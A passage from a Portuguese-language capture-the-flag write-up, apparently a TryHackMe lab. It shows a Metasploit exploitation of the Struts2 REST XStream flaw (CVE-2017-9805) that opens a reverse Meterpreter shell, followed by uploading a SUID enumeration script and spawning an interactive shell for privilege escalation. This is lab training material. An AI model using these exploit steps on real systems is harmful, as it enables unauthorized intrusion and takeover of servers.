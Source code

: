 ```shell
msf6 exploit(multi/http/struts2_rest_xstream) > set target
set target     set targeturi  
msf6 exploit(multi/http/struts2_rest_xstream) > set targeturi /struts2-rest-showcase-2.5.12/orders/3
targeturi => /struts2-rest-showcase-2.5.12/orders/3
msf6 exploit(multi/http/struts2_rest_xstream) > run

[*] Started reverse TCP handler on 10.6.125.125:4444 
[*] Sending stage (24772 bytes) to 10.10.198.47
[*] Meterpreter session 1 opened (10.6.125.125:4444 -> 10.10.198.47:57950) at 2024-01-16 21:39:13 -0300

meterpreter > 
```
{: .nolineno }
Aqui tem um bom conteudo sobre a vulnerabilidade [https://blog.appsecco.com/detecting-and-exploiting-the-java-struts2-rest-plugin-vulnerability-cve-2017-9805-765773921d3d](https://blog.appsecco.com/detecting-and-exploiting-the-java-struts2-rest-plugin-vulnerability-cve-2017-9805-765773921d3d), ou buscando no google sobre metasploit CVE : 2017-9805 você encontra as configurações de targeturl.

Vamos para pasta /tmp e fazer upload do suidenum pra buscar por binários SUID.

```shell
meterpreter > getuid
Server username: tomcat9
meterpreter > pwd
/
meterpreter > cd /tmp
meterpreter > pwd
/tmp
meterpreter > upload SUID3NUM/
.git           .github        LICENSE        README.md      output.matlab  suid3num.py    
meterpreter > upload SUID3NUM/suid3num.py
[*] Uploading  : /home/kali/thm/basicpentest/SUID3NUM/suid3num.py -> suid3num.py
[*] Uploaded 16.24 KiB of 16.24 KiB (100.0%): /home/kali/thm/basicpentest/SUID3NUM/suid3num.py -> suid3num.py
[*] Completed  : /home/kali/thm/basicpentest/SUID3NUM/suid3num.py -> suid3num.py
meterpreter > shell
Process 1486 created.
Channel 2 created.
ls
hsperfdata_tomcat9
suid3num.py
pwd
/tmp
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat9@basic2:/tmp$ ls
ls
hsperfdata_tomcat9
suid3num.py
chmod +x suid3num.py 
tomcat9@basic2:/tmp$ ./su	
./suid3num.py 
```
{: .nolineno }
